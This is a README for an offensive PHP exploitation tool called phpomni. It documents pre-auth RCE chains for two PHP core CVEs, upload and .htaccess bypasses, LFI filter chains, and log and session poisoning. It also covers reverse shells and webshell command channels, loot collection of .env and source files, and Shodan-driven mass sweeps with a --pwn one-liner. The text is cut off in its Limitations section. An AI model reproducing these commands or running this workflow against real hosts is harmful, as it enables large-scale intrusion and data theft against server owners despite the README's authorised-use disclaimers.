

```
   __  __         __                            _
  / / / /__  ___ / /____ _  ___  ___ ___  (_)___
 / /_/ / _ \/ _ \/ __/  ' \/ _ \/ _ `/\ \/ / / __/
/ __  /  __/  __/ /_/_/_/_/\___/_//_//_/\_/_/\__/
\/  \/\___/\___/\__/            phpomni v13.2
```

**PHP surface → code execution, in one command. php2shell CVEs first, everything else as fallback.**

> **The author is not responsible for misuse.** You choose the targets; you carry the consequences. See [Legal](#legal).

Takes a URL. Fingerprints OS, SAPI and PHP version, picks the php2shell chain (**CVE-2026-109618** mod_php / **CVE-2026-109619** FPM) from a **29-row lab-verified build matrix** (PHP 8.4.8–8.5.11, amd64 + arm64), leaks the heap and libphp bases through the `Set-Cookie` channel, forges the fake object and proves execution by round-tripping real `id` output. The producer **learns the target's real `memory_limit`/`post_max_size` from the wire** — no blind OOM sweeps, and a config that can't work is reported as `CONFIG BLOCKED` after one request. With `--stage` it plants a full reverse shell — commands ride the extended carrier, so **nothing is capped at 14 bytes**. When the CVE gate rejects a host, the fallback ladder takes over: upload handlers, LFI/filter chains, session and log poisoning, php-cgi, FastCGI.


---

> **Authorised testing only.** Everything here is active — it uploads files, writes `.htaccess`, and triggers errors. Point it at boxes you own or have permission to poke.

---

## Contents

- [Why](#why)
- [Features](#features)
- [Installation](#installation)
- [Quick start](#quick-start)
- [Usage](#usage)
- [php2shell](#php2shell)
- [Lab simulator](#lab-simulator)
- [How it works](#how-it-works)
- [Transports](#transports)
- [Verifying a hit](#verifying-a-hit)
- [Output, loot and resuming](#output-loot-and-resuming)
- [Shodan](#shodan)
- [Troubleshooting](#troubleshooting)
- [Limitations](#limitations)
- [Legal](#legal)
- [File layout](#file-layout)
- [Contributing](#contributing)
- [Roadmap](#roadmap)
- [License](#license)

---

## Why

Most PHP one-shots fire payloads and hope. phpomni runs a fixed pipeline of probes, and **nothing counts as a hit until a unique marker comes back through executed code**. A page that merely echoes `<?php` is not a hit; a page that runs `system('id')` and returns `uid=33(www-data)` is.

It is built for the boring middle ground: sites behind a WAF, behind a VPN, behind a login, on a box where a `.php` upload gets renamed to `.php.jpg`. It is not an exploit framework — it is a fast way to find out whether a target has a live upload handler, a traversable include, or an unpatched PHP core, and to prove it.

Two transports, because half of real targets can't call back:

- **reverse** — classic TCP callback
- **http** — commands over the webshell URL, no listener, survives NAT and VPN tunnels

`auto` tries reverse and falls through to HTTP.

---

## Features

**Transport**

- One connection per request, chunked transfer decoding, bare-LF tolerance, `Host: host:port`, IPv6 literals
- 3-hop same-host redirect following
- Jittered per-request delay, configurable retry, HTTP CONNECT and SOCKS5 proxy support
- Cookie jar with automatic `Set-Cookie` capture; first-class `-H`, `--cookie`, `--auth`

**Discovery**

- 120-entry handler wordlist, `-w` to override
- Upload form parsing across double-quoted, single-quoted and bare attributes, including hidden CSRF fields
- phpinfo / `.env` / `.git` / `composer.json` harvesting with ini extraction
- Placeholder-page detection (nginx, NPM, Apache, IIS) so dead targets cost seconds, not minutes
- `--vhost` for reverse-proxy front ends

**Upload**

- 10 extension aliases, trailing-dot and trailing-space, null-byte and double-extension variants
- `GIF89a` MIME polyglot with `image/gif` part content-type
- Returned-path parsing from JSON keys and `href` attributes before falling back to directory brute force
- Optional `.htaccess` / `.user.ini` planting to defeat strict whitelists — **with backup and `--restore-config`**
- Per-target profile gates the pipeline: no `file_uploads`, no upload prong

**LFI**

- `php://filter` base64 source reads (proof _and_ recon)
- `convert.iconv` filter chains for no-write RCE, swappable via `--chain-table`
- `data://`, `expect://`, `zip://`, `phar://`
- Traversal depth walking, log and `/proc/self/environ` poisoning
- `session.upload_progress` poisoning with keepalive thread and both serialize handlers

**PHP core (php2shell)**

- php2shell-first: fingerprint → chain select (109618 mod_php / 109619 FPM) → exploit → fallback ladder
- 29-row build matrix: PHP 8.4.8–8.5.11 amd64 and 8.4.25/8.5.10/8.5.11 arm64, offsets cross-verified against the public [devploit/php2shell](https://github.com/devploit/php2shell) calibration; wrong rows fail **closed** at the `dtor` anchor
- `Set-Cookie` leak channel: Zend MM chunk base + libphp base, dtor-anchored validation, `php_url_encode`-faithful decoding (the `0x20`/`+` round-trip)
- Config-adaptive: the OOM fatal names the exact `memory_limit` (self-correcting a wrong phpinfo value; 8M→512M ladder when no fatal fires), the oversized-body warning names `post_max_size` → `CONFIG BLOCKED` instead of blind rounds
- Extended carrier — commands up to 4096 bytes, **no 14-byte cap**; `--stage` plants a full reverse shell or a verified webshell
- `--calibrate` finds new builds, `--cve-offsets` for manual ones; `--cve-only`, `--cve-rounds`, `--force-sapi` to steer
- Pure-Python lab simulator (`sim_target.py`) with `--memory-limit`/`--post-max` config-killer modeling — regression-test the whole chain without Docker or PHP

**Post-execution**

- FastCGI client to reach the FPM socket and bypass `disable_functions`
- `open_basedir` escape via `glob://` and `chdir` + `ini_set`
- CVE-2012-1823 and CVE-2024-4577 (`%AD` argument-injection variants)
- Base64 command channel with a five-function fallback chain
- Numbered action menu with pty upgrade, SUID, credential and container sweeps

**Operations**

- Click-through wizard — no flags required
- JSONL output, resume file, per-host loot directory
- `--self-test` covering parsers, framing, multipart, chain construction, the leak channel, the offset matrix, config learning and the CVE gate

---

## Installation

Python 3.11 or newer.

```
git clone https://github.com/blirfbla-lab/PHP2SHELL-phpomni.git
cd PHP2SHELL-phpomni
python3 -m pip install -r requirements.txt
chmod +x phpomniv13.py
```

`requirements.txt`:

```
rich>=13.0
PySocks>=1.7
```

Both are optional. Without `rich` the tool falls back to plain output; without PySocks, SOCKS proxies error out and HTTP proxies still work.

Place `wordlist.txt` next to the script — it is auto-loaded and `-w` overrides it.

Verify the install:

```
python3 phpomniv13.py --self-test
```

All assertions must pass before you trust a run.

---

## Quick start

```
python3 phpomniv13.py
```

That is the whole thing. You get numbered menus with defaults marked `*` — press Enter to accept. It asks what to attack, how the shell should come back, whether there's a login, and how loud to be, then shows a summary and waits for confirmation.

Behind a VPN it detects it, warns, and defaults the transport to HTTP.

**One-liner, no questions:**

```
python3 phpomniv13.py --pwn https://target.example/
```

---

## Usage

```
phpomniv13.py [OPTIONS] [URL...]
```

Flags are grouped by what they touch. Every one is documented mechanically — what it sends, what it changes, and what it costs.

---

### Targets

#### `URL...`

Positional, repeatable, zero or more.

Each argument goes to `Target()`. If it has no scheme and no `//`, `http://` is prepended. The path defaults to `/`; a query string is preserved. Port defaults to 443 for `https` and 80 for `http`. IPv6 literals must be bracketed (`[::1]`).

The hostname becomes the `Host:` header verbatim — which is why a bare IP against a vhost router returns the wrong site. See `--vhost`.

No validation beyond that. A typo becomes a target that dies at DNS, and you'll see it as `unreachable` in the report.

```
phpomniv13.py https://a.example/ http://192.0.2.10:8080/path?x=1
```

#### `-f, --file PATH`

Reads targets from a file, one per line. Blank lines and lines starting with `#` are skipped. `http://` is prepended to anything without a scheme.

Merged with any positional URLs — the two are additive, not exclusive.

Lines are **not** run through `url_ok`, so a malformed line fails at connect time rather than at parse time. If you want validation, feed the file through the wizard's file option instead.

```
phpomniv13.py -f targets.txt --pwn
```

#### `--shodan QUERY`

Pulls targets from the Shodan API instead of you listing them.

Paginates up to five pages with `minify=true` so the response stays small. A `429` sleeps two seconds and retries the same page. Results are filtered to ports 80, 443, 8080, 8000 and 8888 — a match on any other port is discarded even if the host is otherwise interesting. `https://` is used when the result carries an `ssl` block.

Requires `--shodan-key` or `SHODAN_API_KEY`. Merges with positional URLs and `-f`.

Free API keys return roughly 100 results and effectively one page, so `--limit` above that buys nothing.

```
phpomniv13.py --shodan 'http.component:"PHP" http.html:"multipart/form-data"' --limit 40
```

#### `--shodan-key KEY`

API key for `--shodan`. Defaults to `SHODAN_API_KEY` from the environment, which is the better habit — the key then stays out of your shell history.

#### `--limit N`

Default `50`. Caps how many targets `--shodan` returns in total. Ignored when `--shodan` isn't used.

#### `--vhost HOST`

Sets the `Host:` header, overriding the one derived from the URL. Applied after the defaults, so it wins cleanly.

Needed whenever the target is a reverse proxy routing by hostname — nginx, Nginx Proxy Manager, Traefik, Cloudflare — because hitting the bare IP returns the proxy's default page rather than the app. Same effect as `-H 'Host: x'`, but it also feeds the placeholder detector's retry hint.

```
phpomniv13.py http://203.0.113.9 --vhost shop.example.com
```

---

### Modes

#### `--wizard`

Forces the guided setup, even when URLs were supplied on the command line.

The wizard **replaces** `args.urls` with whatever you answer, so combining it with positional URLs means the URLs you typed are discarded. Useful only when you want to change transport, auth or loudness interactively before a run.

The wizard also runs automatically with no arguments on a TTY, which is the normal way in.

#### `--pwn`

Turns on the settings you'd otherwise forget: `--config-upload`, `--lport 0` (ephemeral) if the port is still the default, `--transport http` if a Mullvad exit is detected and the transport is still `auto`, and an auto-detected `--lhost` when a callback is expected.

It does **not** touch `--delay`, `--threads` or `--retries` — those are the wizard's loudness question. `--pwn` on the command line is therefore gentler than answering "loud" in the wizard. If you want the full noise, set them yourself.

```
phpomniv13.py --pwn https://target.example/
```

#### `--plan`

Prints the pipeline for each target after reconnaissance, then **runs anyway**. It is a preview, not a dry run — recon still issues requests.

Useful for showing a client what's about to happen. Combine with `--no-upload --no-lfi --no-cve` for something close to read-only.

#### `--wrap`

Prints a single `convert.iconv` filter chain for a fixed test payload and exits immediately. No network, no targets needed. Handy for pasting into Burp or testing a wrapper by hand.

#### `--self-test`

Runs 50+ assertions over the parsers, header framing, multipart construction, chain generation, URL validation, the CVE version gate, the offset matrix (row count, per-arch offsets, `forge_len`) and wire-config learning (the OOM fatal and the post_max warning), then exits `0` or `1`.

Run it after every edit. It exists because a `NameError` in a rarely-hit branch once survived to a tagged release.

---

### Shell transport

#### `--transport {auto,rev,http}`

Default `auto`.

| Value | Behaviour |
| --- | --- |
| `auto` | Binds a listener, drops the callback file, waits three seconds after the run, and falls back to an HTTP shell if nothing connected |
| `rev` | Listener only. No HTTP fallback — if the callback fails you get nothing |
| `http` | No listener at all. `drop_shell` is skipped; commands go over the webshell URL |

`http` is the correct choice behind NAT, a VPN, or any egress-filtered network. `rev` is the only mode that gives you a TTY.

Forcing `rev` when nothing can call back wastes the run; `auto` costs three seconds.

#### `--lhost IP`

Callback address embedded in the shell payload. If omitted while a callback is expected, the tool resolves your public IP first and falls back to the route address.

Under Mullvad the public IP is your relay exit — correct, but only reachable if you've enabled port forwarding for that relay. Without forwarding the callback silently dies; `auto` recovers, `rev` doesn't.

#### `--lport N`

Default `4444`. `0` binds an ephemeral port and writes the real bound port back before any payload is generated, so the listener and the payload always agree.

Unused under `--transport http`. If the default is taken, the listener walks forward up to eight ports before giving up and switching to HTTP.

#### `--no-listener`

Skips binding entirely. With `--lhost` set the payload still carries the callback, so it fires into nothing — useful for capturing a callback elsewhere, or for a dry run. Without `--lhost` it's a no-op.

---

### Discovery

#### `-w, --wordlist PATH`

Handler list to probe. **Replaces** the shipped `wordlist.txt` rather than merging with it — first resolution wins.

If the path doesn't exist or can't be read, the tool silently falls back to `wordlist.txt` beside the script, then to 17 built-in entries. A typo'd path gives you the default list with no complaint, so check your spelling if results look generic.

Order is priority order: only the first six matched handlers are tried.

#### `--no-discover`

Skips the wordlist. The root page is still probed for upload forms, so "root page only" is now the behaviour rather than "no upload at all".

#### `--chain-table PATH`

JSON file mapping each base64 character to a `convert.iconv` pair, replacing the built-in table:

```
{"A": ["UTF8.UTF16LE", "UTF8.CSISO2022KR"], "...": ["...", "..."]}
```

Every base64 character that can appear in a payload needs an entry, or `build_chain` raises `KeyError` and the LFI prong falls through. Use it when you have a corrected iconv mapping for a target's libc.

---

### Request shaping

#### `-H, --header 'K: V'`

Repeatable. Split on the first colon, stored, and applied after the defaults — so it overrides `Host`, `User-Agent`, `Content-Type` and `Accept`.

This is the escape hatch for bearer tokens, `X-Forwarded-For: 127.0.0.1`, `X-Original-URL`, and anything else a target wants.

```
-H 'Authorization: Bearer eyJ...' -H 'X-Forwarded-For: 127.0.0.1'
```

#### `--cookie 'k=v; k2=v2'`

Parsed on `;`, each pair into the jar, sent as a single `Cookie:` header. The jar also auto-populates from `Set-Cookie`, so a login performed by the tool itself is carried.

No expiry tracking and no `Domain`/`Path` scoping — a stale cookie simply returns the login page and every command comes back as HTML. Re-auth rather than assuming the shell died.

```
--cookie "PHPSESSID=abc123; wordpress_logged_in_x=..."
```

#### `--auth user:pass`

Split on the **first** colon, base64'd into `Authorization: Basic`. Colons inside the password survive intact. Sent on every request, including discovery — which can be hundreds of requests.

#### `--proxy URL`

`http://` uses CONNECT for `https` and an absolute-URI request line for `http`. Any `socks*` scheme uses PySocks over SOCKS5. Missing port defaults to 8080 for HTTP.

```
--proxy socks5://127.0.0.1:1080
```

Without PySocks installed, a SOCKS proxy raises immediately.

#### `--timeout SEC`

Default `8`. Applied per socket operation — connect, and each read — not as a total per request. A slow-drip target can therefore exceed it comfortably.

#### `--delay LOW-HIGH`

Default `0.05-0.25`. Split on the first `-`. A single value (`0.3`) applies to both ends. `0` disables sleeping entirely.

Applied before **every** request, retries included. This is the main WAF lever; the quiet preset is `0.3-0.8`.

#### `--retries N`

Default `1`, meaning up to two attempts. Retries on `OSError` and `SSLError` only, with a 0.3s backoff. A `403` is not retried — that's a WAF answer, not a transport failure.

#### `--threads N`

Default `8`. Mass mode only — a single target ignores it, because prongs within a target are already serial. Each worker gets its own `Target`, socket set and cookie jar.

Above roughly 20 you'll trip rate limits on most hosts before you gain wall-clock time.

---

### Behaviour

#### `--cmd 'CMD'`

The command used for every proof. Default `id; uname -a`.

It is interpolated into single-quoted PHP (`system('...')`), so semicolons, pipes and redirects are fine but a literal single quote breaks it. Escape those or switch to double quotes.

```
--cmd 'cat /etc/passwd | head'
```

#### `--loot DIR`

Default `loot`. `''` disables capture. Created at startup; if creation fails the feature silently switches off.

Each host gets a sanitised subdirectory, and every captured filename is sanitised to `[\w.\-]` and truncated at 120 characters. Distinct paths can collide and overwrite. No size cap, no encryption, no per-run isolation.

```
--loot "loot/$(date +%F)"
```

#### `--config-upload`

Adds the `.htaccess` / `.user.ini` prong, scheduled **last**. It needs a directory that already accepted an upload, so it does nothing if the upload prong never landed one.

Before writing, it fetches any existing `.htaccess` in that directory and stores it in `loot/<host>/htaccess.bak`.

Tries four `.htaccess` variants first (`SetHandler` in `FilesMatch`, `AddType`, `AddHandler`, a two-line combo), then two `.user.ini` variants with a six-second retry loop for `user_ini.cache_ttl`.

#### `--restore-config`

After the run, re-uploads the saved `.htaccess` to put the site back. Only fires when a backup was actually captured. If the restore itself fails you get a warning and the original stays in loot.

```
phpomniv13.py https://staging.example/ --config-upload --restore-config
```

#### `--no-upload`

Removes the upload prong from the plan. Also removes any chance of `--config-upload` working, since that needs a writable directory.

#### `--no-lfi`

Removes `lfi`, `session` and `logpoison` from the plan. The three are grouped because the latter two need a route discovered by the first.

#### `--no-cve`

Removes the php2shell prong. Use it when you want to stay quiet: the leak stages are the loudest thing in the tool — up to three OOM requests that restart workers.

#### `--rce-only`

Breaks the prong loop as soon as any `hard` finding exists. Faster, but you lose the later prongs that might upgrade a bare execution into an actual shell file.

#### `--force`

Bypasses placeholder-page detection. Use it when a real app genuinely contains a marker like "Welcome to nginx" in its body and gets skipped wrongly.

#### `--force-os {unix,windows}`

Overrides OS detection. `windows` switches the reverse-shell payload to the PowerShell variant. Use it on stripped-header targets where detection lands on `unknown` and the pipeline gets shorter than it should.

---

### Output

#### `--json`

One JSON object per target on stdout, one per line. Suppresses the banner and the dashboard, and engages quiet mode when stdout isn't a TTY so progress lines don't corrupt the stream.

Shape:

```
{"target":"https://x/","os":"unix","sapi":"apache","php":"8.1.2",
 "shell":"https://x/uploads/phpomni.php","hard":true,
 "findings":[{"kind":"SHELL","prong":"upload","detail":"..."}]}
```

#### `--resume PATH`

Reads existing lines as a skip set, then appends completed targets after the run. Plain text, one URL per line, appended in report order.

Not locked. Two concurrent runs against one file will interleave and can duplicate.

#### `--plain`

Disables the live dashboard; output falls back to plain lines. Same as running without `rich`.

#### `--quiet`

Progress lines only — the banner, dashboard and hit markers go silent. Re-enabled automatically for the final report so you still get the verdict and the shell URLs.

#### `--no-color`

Disables ANSI. `NO_COLOR` in the environment does the same.

#### `--no-banner`

Suppresses the ASCII banner. Ignored under `--json`.

#### `--strict-ssl`

Verifies the target certificate and hostname. Off by default because half the boxes you'll point this at have a self-signed cert, an expired one, or the wrong CN.

---

### Diagnostics

#### `--debug`

Prints a traceback for every prong exception instead of swallowing it, and re-raises inside the thread pool so failures surface.

Prongs catch broadly by design — one bad parser shouldn't abort a target — which means `--debug` is the only way to see why something quietly did nothing.

#### `--self-test`

See [Modes](#modes).

### Examples

```
# Single target, everything on
python3 phpomniv13.py --pwn https://target.example/

# Behind a login, HTTP shell, gentle
python3 phpomniv13.py https://target.example/ \
  --cookie "PHPSESSID=abc123" --transport http --delay 0.3-0.8

# Behind a reverse proxy
python3 phpomniv13.py http://203.0.113.9 --vhost app.example.com

# Staging box, leave it as you found it
python3 phpomniv13.py https://staging.example/ --config-upload --restore-config

# Mass sweep, resumable, machine-readable
python3 phpomniv13.py -f sites.txt --pwn --threads 20 --json > out.jsonl --resume done.txt

# Plan only, no CVE noise
python3 phpomniv13.py https://target.example/ --plan --no-upload --no-cve
```

Exit code is `0` if any shell was obtained, `1` otherwise.

---

## php2shell

CVE-2026-109618 and CVE-2026-109619 are the October 2026 pre-auth RCEs in PHP core, fixed in 8.5.12, 8.4.27, 8.3.36 and 8.2.35. Both abuse `session.upload_progress`, which runs **before** the target script and before RINIT — so application code is irrelevant, and an unauthenticated request gets you code execution on a box you have no foothold on. **PHP 8.1 and older are EOL but still vulnerable** — the gate fires on any non-fixed branch.

The tool checks the version from phpinfo or `X-Powered-By`, then picks the chain:

| SAPI | Chain | Mechanics |
| --- | --- | --- |
| `apache` (mod_php) | **109618** | OOM → longjmp skips `init_executor` → shutdown walks stale `EG()` → forged `arData` UAF write → `pDestructor` → `zif_system` |
| `fpm` / nginx-fronted | **109619** | OOM aborts mid-unserialize → `BG(unserialize)` left dangling → next request on the same pinned worker reclaims it → forged session var → `zif_system` |

Both chains need `session.upload_progress.enabled=On` (the PHP default), a finite `memory_limit` the producer can blow past, and `post_max_size` big enough for the OOM body to arrive intact — the tool **learns both limits from the wire** (see [Config the chain needs](#config-the-chain-needs)).

It then:

1. **Learns the config from the wire** — every producer reply is mined. When the OOM fires, the fatal message names the target's exact `memory_limit` (a wrong or missing phpinfo value self-corrects on the first shot); when no fatal ever fires, the producer climbs an 8M→32M→128M→512M rung ladder until one does. An oversized-body warning names `post_max_size`; a `post_max_size` that cannot fit the OOM body is reported as `CONFIG BLOCKED` and the round stops after **one** request instead of burning blind producers.
2. **Leaks** — one producer+consumer round for the Zend MM chunk base (2MB-aligned pointer voting in the fat `Set-Cookie: PHPSESSID`), one for the libphp base (the stale `pDestructor` slot, validated against the build's `dtor` anchor). The pointers travel as raw bytes in the cookie — never as body text — and are decoded `php_url_encode`-faithfully (`+` folds back to `0x20`; a true `0x2B` arrives as `%2B`).
3. **Forges** — builds the fake object at the leaked base and sends it as the consume request. At session shutdown `zval_ptr_dtor` walks the array destructor and calls `zif_system` with the command in a fake `zend_string` that rides the **extended carrier** — commands up to 4096 bytes, no 14-byte cap.
4. **Proves** — nothing is a hit until real `uid=` output comes back. With `--stage` it then plants a POSIX-safe payload (`printf %s …|base64 -d`, never the bashism `<<<`) and either calls back over `/dev/tcp` or leaves a verified `PHP_EXEC` webshell in a webroot.

```
python3 phpomniv13.py https://target.example/ --cmd 'id' --no-upload --no-lfi
```

### What it can target

**Offsets are per build.** `BUILTIN_PROFILES` ships 29 rows — `system_off` is the real `zif_system` offset inside that build's libphp, `dtor` the `zval_ptr_dtor` anchor, `forge_len` the stage-1 groom length (79 on 8.4.26, 63 on every other calibrated build). A row that doesn't match the target fails **closed** at the dtor anchor — a wrong row can never wrong-forge. `--calibrate URL` finds `system_off` for a build the matrix doesn't know (known rows first, then a small sweep), or supply `--cve-offsets SYSTEM,STRING` yourself:

```
--cve-offsets 465370,5c0
```

The Apache/mod_php matrix covers the **official `php:<v>-apache` (bookworm) images** the offsets were calibrated on. Offsets, grooms and stage-3 geometry are cross-ported from the public [devploit/php2shell](https://github.com/devploit/php2shell) calibration matrix (2026-10-30, maintainer-verified with `uid=33` proofs on those images); the `8.4.26/amd64` row is php-omni's own lab proof and matches it exactly — two independent verifications of the same image.

| PHP build (official image) | arch | status | notes |
| --- | --- | --- | --- |
| 8.4.26 | amd64 | **verified** — ours | the anchor row; `forge_len` 79 |
| 8.4.10, 8.4.11, 8.4.19, 8.4.20, 8.4.25 | amd64 | **verified** | same carrier geometry and grooms |
| 8.5.10, 8.5.11 | amd64 | **verified** | the 8.5 carrier branch |
| 8.5.0 – 8.5.9 | amd64 | offsets verified, **best-effort** | their stage 3 needed devploit's "vessel" steering, which php-omni does not implement — recalibrate on a miss |
| 8.4.8, 8.4.12 – 8.4.18 | amd64 | **retry** rows | same class; devploit's RCE re-run was pending or their stage-3 sweep exhausted |
| 8.4.25, 8.5.10, 8.5.11 | arm64 | **verified** | keyed off the phpinfo arch fingerprint; 8.4.25 is probabilistic — keep `--cve-rounds 3` |

**Explicitly not covered** (all fail closed — `--calibrate` or accept the miss):

- **Distro PHP** — Debian/Ubuntu packages, cPanel, non-bookworm images: every unknown build needs one `--calibrate` run to write its row.
- **PHP-FPM targets** — the 109619 chain runs (sim-proven), but the matrix ships no FPM rows: the public FPM offsets are for source builds that don't match distro `php*-fpm` packages.
- **PHP 7.x – 8.3 (Apache)** — the UAF exists but the leak shape differs (7.4/8.0–8.2) or the stale reference is still alive (8.3.x): no stage 3 on those branches.
- **8.4.2, 8.4.5 – 8.4.7** — a different stage-1 groom (892 fields) that php-omni does not ship.

### Config the chain needs

| INI | Why | If it's missing |
| --- | --- | --- |
| `session.upload_progress.enabled=On` (default) | the pre-RINIT trigger surface | gate reports `session.upload_progress off` |
| `display_errors=On` (Apache chain) | request-startup diagnostics render — the leak channel | gate reports `display_errors off, no leak channel` |
| finite `memory_limit` | the OOM producer must blow past it | **learned from the wire**: the fatal names the exact limit; without phpinfo the ladder climbs 8M→32M→128M→512M until a fatal fires |
| `post_max_size` ≥ the OOM body | PHP rejects the body **before** parsing it | **learned and reported**: the warning names the limit; if it can't fit, the run stops with `CONFIG BLOCKED` after one producer |
| `fastcgi_request_buffering=off` (FPM chain) | the 109619 arm needs the body streaming | auto-relaxed at fingerprint when it can't be disproven; if it reappears the target answered like a buffering proxy |

`--no-cve` removes the prong entirely. It's the loudest thing in the tool: OOM requests per attempt and workers restarting behind you. `--cve-only` skips the fallback ladder entirely — win or lose.

---

## Lab simulator

**No Docker? No PHP? Test the whole chain with plain Python.** `sim_target.py` fakes the vulnerable request cycle deterministically — a fake `php:8.4.26-apache` (bookworm) build with the same geometry as `BUILTIN_PROFILES["8.4.26/amd64"]`, including real `php_url_encode`-style leak cookies with `0x20`-bearing fake bases:

```
python sim_target.py                      # mod_php 109618 chain on 127.0.0.1:8099
python sim_target.py --sapi fpm --port 8098   # 109619 chain behind nginx (the default port is 8099 for BOTH sapis — always pass --port for the second sim)
python sim_target.py --port 8097 --memory-limit 128   # a stock 128M box: the ladder must climb and learn
python sim_target.py --port 8096 --post-max 6        # a 6M post_max_size: the run must report CONFIG BLOCKED
```

Then, from the repo root:

```
python phpomniv13.py http://127.0.0.1:8099/ --cve-only --cmd id
python phpomniv13.py http://127.0.0.1:8099/ --cve-only --cmd id --stage --lhost 127.0.0.1
python phpomniv13.py --calibrate http://127.0.0.1:8099/ --profiles-out p.json
```

What a pass proves — and what it doesn't:

| Verified against the simulator | Still needs a real lab |
| --- | --- |
| `Set-Cookie` leak parsing (both grooms, the `+` round-trip), config learning (the `memory_limit` ladder, `CONFIG BLOCKED`), `--cve-only`, `--stage` staging, `--calibrate` seeding, exit codes and shell accounting | the actual heap mechanics per build — run `--calibrate` against a real `php:8.4.26-apache` container once, then trust the profile it writes |

The simulator validates the client protocol logic (producers, consumers, forge geometry, POSIX-safe staging commands), which is exactly where regressions live. The memory corruption itself only a real PHP build can prove.

---

## How it works



php2shell runs **first**: fingerprint → chain select → exploit → and only then the fallback ladder. Every prong follows the same contract: send a probe, look for a marker that only executed code can produce, and only then record a `hard` finding. The pipeline is derived from the target's own phpinfo — no `allow_url_include` means no `data://` and no `php-cgi`; `session.upload_progress.enabled=0` skips both session poisoning and the CVE prong.

A `LEAK` finding never stops the pipeline. A phpinfo page does not mean the run is over.

---

## Transports

**HTTP** — the webshell is the shell. Commands go out as base64 in `?c=` or `&c=`, output comes back between `=B=` and `=E=` markers. No listener, no NAT, no port forwarding. Works from behind anything.

```
curl -s "$SHELL_URL" --data-urlencode "c=$(printf 'id' | base64 -w0)"
```

Limits: one request per command, no TTY, so `sudo`, `vim` and anything interactive will hang. Every command is an access-log line.

**Reverse** — a TCP callback. Faster, interactive, and the only way to get a real pty. Needs inbound reachability.

### Mullvad and other VPNs

Mullvad blocks inbound by default, so a reverse shell dies silently. Two options:

1. **HTTP transport** — pick it in the wizard, or `--transport http`. Nothing to configure.
2. **Port forwarding** — enable it in the Mullvad app for your relay, reconnect, and the app shows a port. The wizard picks it up automatically; manually, pass `--lport <port> --lhost <your-mullvad-exit-ip>`.

`auto` detects a Mullvad interface or exit range and falls back to HTTP when no callback arrives within three seconds.

---

## Verifying a hit

Never trust a hit without reproducing it.

```
SHELL='https://target.example/uploads/phpomni.php'
curl -s "$SHELL" --data-urlencode "c=$(printf 'id; uname -a' | base64 -w0)"
```

```
=B=
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux web01 5.15.0-91-generic #101-Ubuntu SMP x86_64 GNU/Linux
=E=
```

Then confirm the marker alone still returns `PHPOMNI_<id>_SHELL` — a handler that echoes the file back without parsing it will return `<?php` too.

---

## Output, loot and resuming

Default output is a per-target report with a plain-English verdict and a coloured finding list. `--json` emits one JSONL object per target:

```
{"target":"https://x/","os":"unix","sapi":"apache","php":"8.1.2","shell":"https://x/uploads/phpomni.php","hard":true,"findings":[...]}
```

Loot lands in `loot/<host>/`: phpinfo dumps, `.env`, `.git/config`, every source file and sensitive file read through LFI, and any `.htaccess` captured before a rewrite. `--loot ''` disables it.

`--resume FILE` appends completed targets and skips them on the next run, so a 500-host sweep that dies at 300 continues where it stopped.

---

## Shodan

`http.html` matches page substrings. Useful openers:

```
http.component:"PHP" http.html:"multipart/form-data" port:8080 country:US
http.title:"phpinfo()"
http.title:"Adminer"
http.html:"index.php?page="
```

Scope with `country:`, `org:`, `asn:`, `net:`, `port:`, `has_screenshot:true`. Free keys return roughly 100 results per query; `--limit` beyond that needs a paid key. The index lags, so expect dead hits — that is what `--resume` is for.

```
python3 phpomniv13.py --shodan 'http.component:"PHP" http.html:"multipart/form-data"' \
  --limit 100 --pwn --json > out.jsonl --resume done.txt --threads 20
```

---

## Troubleshooting

| Symptom | Cause | Fix |
| --- | --- | --- |
| `0/1 shells`, no findings, ~200s | Default page (nginx, NPM, IIS) | Find the real hostname, use `--vhost` |
| `no handler discovered` | No upload form in the wordlist | Supply `-w` with app-specific paths |
| Upload succeeds, GET returns `<?php` | Extension not mapped to PHP | `--config-upload` |
| Shell returns the login page | Session expired | Re-auth, re-pass `--cookie` |
| `listener bind failed` | Port in use | `--lport 0` |
| Reverse never connects | VPN or firewall | `--transport http` |
| Everything 403s mid-run | Rate limited | Lower to `--delay 0.3-0.8`, `--threads 4` |
| `PySocks required` | SOCKS without the dep | `pip install PySocks` |
| `cve blocked: post_max_size …` | Body truncated before OOM — learned from the warning | Raise `post_max_size` in a lab, or accept the miss (the run stopped after one request by design) |
| `cve: no heap leak` | Body never reached the parser, or no fat `Set-Cookie` came back | Check `memory_limit` and `post_max_size`; verify the leak in the `sim_target.py` lab first |
| `cve: no OOM fatal up the ladder` | `memory_limit` above 512M, or the body is rejected with `display_errors` hiding the warning | Try `--cve-offsets`-free probe by hand; on huge limits the chain is just slow |
| `cve: no libphp base (dtor anchor mismatch)` | The stale `pDestructor` slot didn't validate against the profile's `dtor` — the row fails closed | Different build than the matrix row — run `--calibrate`, or pass `--cve-offsets` |
| `cve: forge failed` on a known-good build | `system_off` wrong for that build, or a vessel-class 8.5.0–8.5.9 heap | `--calibrate URL` regenerates the row; keep `--cve-rounds 3` |
| `cve` restarts workers | Expected — that's the bug | Run it in `--plan` first, or `--no-cve` |
| `not applicable: fastcgi_request_buffering on` | nginx target where buffering couldn't be disproven | Now auto-relaxed at fingerprint; if it reappears, the target answered like a buffering proxy |
| Self-test failures after an edit | Regression | Read the failing assertion before trusting a run |

`--debug` prints tracebacks. Prongs swallow exceptions by default so one failure doesn't abort a target.

---

## Limitations

- **The filter-chain table is the weakest part.** `_PFX` is the published `convert.iconv` mapping; a wrong entry fails silently and the run falls through to the next prong. It never produces a false positive, but it can miss. If a chain dies on a box where the include demonstrably works, that table is what to fix — or `--chain-table`.
